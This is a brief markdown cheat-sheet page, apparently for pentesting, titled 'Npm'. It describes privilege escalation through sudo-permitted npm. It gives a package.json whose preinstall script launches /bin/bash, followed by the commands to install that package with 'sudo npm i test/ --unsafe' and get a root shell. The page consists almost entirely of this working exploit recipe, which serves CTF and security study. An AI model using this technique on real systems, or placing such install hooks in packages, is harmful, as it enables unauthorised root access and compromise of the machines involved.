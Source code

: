 ```yaml
---
title: "Npm"
date: 2025-7-25
tags: ["Npm", "Nodejs", "Sudo", "Exploitation"]
---
```


### Privesc #1: Create a Malicious Package

Create a 'package.json'

```console
{
  "name": "root",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

<br>

```console
mkdir test
```

```console
mv package.json test/
```

```console
sudo npm i test/ --unsafe
```
